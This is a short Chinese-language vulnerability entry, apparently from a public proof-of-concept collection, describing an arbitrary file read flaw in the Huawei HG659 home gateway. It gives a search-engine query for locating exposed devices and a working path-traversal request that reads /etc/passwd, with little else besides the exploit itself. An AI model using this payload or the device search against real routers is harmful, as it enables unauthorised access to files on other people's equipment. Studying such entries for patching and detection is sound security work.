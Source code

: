 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
Huawei HG659
```

## 网络测绘

```
app="HUAWEI-Home-Gateway-HG659"
```

## 漏洞复现

登录页面如下

![](./images/202202110951141.png)

POC如下

```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![](./images/202202110951927.png)